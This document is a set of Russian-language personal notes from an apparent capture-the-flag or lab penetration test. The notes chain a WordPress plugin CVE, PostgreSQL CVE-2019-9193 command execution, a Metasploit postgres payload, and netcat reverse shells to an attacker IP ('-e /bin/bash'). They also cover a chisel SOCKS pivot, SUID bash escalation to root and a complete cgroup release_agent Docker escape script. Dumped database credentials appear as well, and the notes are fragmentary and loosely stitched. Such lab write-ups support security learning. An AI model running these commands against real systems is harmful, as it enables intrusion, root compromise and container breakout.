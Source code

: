 ```yaml
---
lpe: docker 
attack: 
---
```

 
#### Nmap
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1720/tcp open  h323q931



#### Scout

При разведке сайта можно было найти плагин . Погуглив который мы можем убедиться что он уязвим и найти нужную нам cve

![[Pasted image 20240924182913.png]]

cve =
https://github.com/v3l4r10/Nukem-PG-exploit/tree/main


#### attack
Смотрим env значения , где находим имя, пароль, пользователя 
$ printenv | grep DB_*
WORDPRESS_DB_PASSWORD=postgres
WORDPRESS_DB_HOST=db
WORDPRESS_DB_USER=postgres
WORDPRESS_DB_NAME=postgres

Или используем скипт linpeas , который также может выдать данную информацию 

https://github.com/b4keSn4ke/CVE-2019-9193/tree/main

Внутри файла меняем данные на наши*

```
 proxychains python3 cve-2019-9193.py -i 172.19.0.2 -p 5432 -c "ifconfig"
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17

[+] Connecting to PostgreSQL Database on 172.19.0.2:5432
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.0.2:5432  ...  OK
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 10.7 is likely vulnerable
[+] Creating table _4e10ad2cfd650df4a8b8c6aac26846bc
[-] Command failed : ERROR:  program "ifconfig" failed
DETAIL:  command not found

[+] Deleting table _4e10ad2cfd650df4a8b8c6aac26846bc

```

хотябы одна кавычка то команда не будет работатдь  '' сломано


-rwsr-xr-x 1 root root   44304 Mar  7  2018 mount
-rwsr-sr-x 1 root root 1099016 May 15  2017 bash
-rwsr-xr-x 1 root root   40536 May 17  2017 su
-rwsr-xr-x 1 root root   31720 Mar  7  2018 umount
```

\"
```


Поворот с помощью долота | Ap3x Безопасность
https://ap3x.github.io/posts/pivoting-with-chisel/

Переадресация портов с помощью C... | 0xБЕН | Примечания
https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel

A Detailed Guide on Chisel - Hacking Articles
https://www.hackingarticles.in/a-detailed-guide-on-chisel/
https://readmedium.com/pivoting-with-chisel-b5bbd8e1e92b



`msfconsole`
use exploit/linux/postgres/postgres_payload
set RHOST <IP-адрес целевой машины>
set LHOST <IP-адрес вашей машины>
set LPORT <порт для обратной связи>





LC_TIME=C
HOSTNAME=b3b16c14274d
SHLVL=0
HOME=/var/lib/postgresql
OLDPWD=/var/lib/postgresql/data
PG_VERSION=10.7-1.pgdg90+1
LC_CTYPE=en_US.utf8
LC_MONETARY=C
PGLOCALEDIR=/usr/share/locale
PGSYSCONFDIR=/etc/postgresql-common
POSTGRES_PASSWORD=hmBADhh5GUBF22G
LC_COLLATE=en_US.utf8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/postgresql/10/bin
LANG=en_US.utf8
LC_MESSAGES=en_US.utf8
PG_MAJOR=10
GOSU_VERSION=1.11
PWD=/tmp
LC_NUMERIC=C
PGDATA=/var/lib/postgresql/data




set LHOST myip
set LPORT любой не занятый порт
set RHOSTS    172.19.0.2 
(послед параметр узнали черзе команду hostname -I в cve для базы данных )

set target 1

Команда что знать что поставить в параметре target 
uname -m

Ответ:
x86_64

 ![[Pasted image 20240925154942.png]]
background выйти обратно 


#### после metasploit
качаем
https://github.com/H74N/netcat-binaries/tree/master/build

потом качаем на саму машнику
> upload /home/kali/Downloads/nc64 /tmp/1945

>rlwrap nc -lnvp 7778

 >execute -f ./nc64 -a "10.127.246.201 7778 -e /bin/bash
 


execute -f ./chisel_1.10.0_linux_amd64 client 10.127.244.55:8000 R:socks
execute -f ./nc64 -a "10.127.244.55 7778 -e /bin/bash"



привелегии на 2 машинке с норм revshell

/bin/bash -p
id
uid=999(postgres) gid=999(postgres) euid=0(root) egid=0(root) groups=0(root),103(ssl-cert)


#### docker
Если вы видите .dockerenv в базовом каталоге, значит, вы находитесь в контейнере.

https://github.com/k4sth4/Docker-Escape


https://github.com/moparisthebest/static-curl
скачать amd64
и перекинуть 



```
# Finds + enables a cgroup release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# Enables notify_on_release in the cgroup
mkdir -p $d/w; echo 1 > $d/w/notify_on_release
# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent
# Creates a payload
echo "#!/bin/sh" > /c
echo "/home/rceflag > $t/o" >> /c
chmod +x /c
# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1
# Reads the output
cat /o
```


cat /proc/2/status | grep Cap 
cat /proc/self/status | grep Cap 

`зведзодчка в /proc/*/status`
`grep C /proc/*/status | grep "CapEff" | grep "03f"`
Возможная уязвимость t sys_admin capability
```
cat /proc/1/status | grep Cap 
CapInh: 0000003fffffffff
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

```
